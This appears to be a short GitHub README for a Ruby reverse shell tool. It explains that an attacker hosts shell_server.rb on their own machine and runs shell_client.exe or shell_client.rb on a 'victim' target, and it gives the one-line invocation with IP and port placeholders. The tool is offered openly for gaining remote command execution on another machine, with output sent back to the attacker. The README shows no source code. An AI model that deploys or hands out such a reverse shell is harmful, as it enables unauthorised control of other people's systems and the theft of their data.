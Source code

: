 # Ruby Reverse Shell

Requirements:

**=> Server that receives the reverse shell must have ruby installed, they victim doesn't**

<br>
These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.




Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
